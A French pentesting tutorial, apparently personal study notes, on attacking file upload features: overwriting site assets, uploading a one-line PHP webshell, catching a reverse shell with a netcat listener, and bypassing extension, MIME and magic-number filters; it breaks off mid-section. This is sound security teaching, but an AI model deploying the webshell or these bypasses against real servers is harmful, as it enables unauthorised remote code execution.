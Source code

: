 
Après avoir [analyser toutes les routes du sites](Decouvertes_du_contenu), on a maintenant une idée d'**où sont stocké les fichiers** que l'on upload.

## __Overwriting Files__

Si le fichier que nous uploadons sera situé au même endroit que les assets du site, nous pouvons écraser un ancien fichier.

![[overwriting1.png]]

On voit que le nom du fichier est *spaniel.jpg*, on peut donc renomer un fichier spaniel.jpg et celui-ci écrasera l'ancien fichier.

![[overwriting2.png]]


## __Remote Controle Execution__

Admettons que nous avons trouvé que nos images sont stocké dans le dossier *uploads/*, on peut se rendre dans ce dossier et nous verrons apparaitre notre image.

![[webshell1.png]]

### Webshell

On peut maintenant essayer d'upload un **executeur de commande**, pour ce faire nous allons créer un fichier PHP contenant ce code :

```php
<?php  
    echo system($_GET["cmd"]); // affiche le resultat de la commande passé en paramètre  
?>
```

Maintenant si nous nous rendons sur notre fichier, nous pouvons mettre notre commande dans l'url
**`webshell.php?cmd=id;whoami;ls`**

![[webshell2.png]]


### Reverse shell

Pour en savoir plus sur les reverse shells, rendez vous dans **[[Reverse_Shell]]**.

On peut donc upload notre reverse shell.

Ensuite il faut qu'on **démarre un serveur Netcat** :

```shell
user@ip:~$ rlwrap nc -vnlp 1234
```

Puis lorsque nous allons nous rendre là où est sauvegardé notre fichier, notre reverse shell aura démarré.


## __Filtering__

Il y a principalement 3 manière de filtrer les fichiers entrant.

### Extension validation

Un code de validation de l'extension pourrai ressembler à celà :

```javascript
let extension = fileName.split(".")[1]; // regarde la 2e partie du nom du fichier

if(extension != "jpg" && extension != "jpeg"){ // vérifie s'il n'est pas en .jpeg
	console.log("Mauvais format !");
	return; // ne donne pas suite à la requête
}
```

Pour bypass ce type de scénario, on doit tout simplement **changer l'extension** de notre fichier et mettant par exemple  **`shell.jpg.php`**.


On peut aussi avoir un autre type de filtrage ressemblant à celà :

```javascript
let decoupage = fileName.split("."); // decoupe le nom du fichier avec les .
let extension = decoupage[decoupage.length - 1]; // recupere la derniere partie du nom

if(extension == "php"){ // vérifie s'il est en .php
	console.log("Mauvais format !");
	return; // ne donne pas suite à la requête
}
```

Pour bypass ce type de scénario, on peut remplacer l'extension **`.php`** par d'[autres extensions](https://en.wikipedia.org/wiki/PHP) pouvant exécuter du PHP. Par exemple : *.phtml*, *.phar* ou encore *.php5*

### MIME Validation

Dans les requêtes HTTP, il y a un attribut qui qualifie le **type de fichier envoyé**, on l'appelle **MIME** (Multipurpose Internet Mail Extension).

Si l'on intercepte une requête avec [burpsuite](https://portswigger.net/burp/communitydownload) on obtiendra quelque chose comme ça :

![[MIME_validation.png]]

On peut voir la ligne **`Content-Type: image/jpeg`** qui veut dire que le document que nous essayons d'envoyer est une image en jpeg.

Pour notre shell, la ligne sera **`Content-Type: application/php`**, on doit donc la modifier pour qu'elle soit perçu comme une image.


### Magic Number

Les fichiers sont encodé en ASCII.

Si on ouvre une image JPEG avec [hexeditor](https://www.kali.org/tools/ncurses-hexedit/), on obtiendra un résultat similaire à ça :
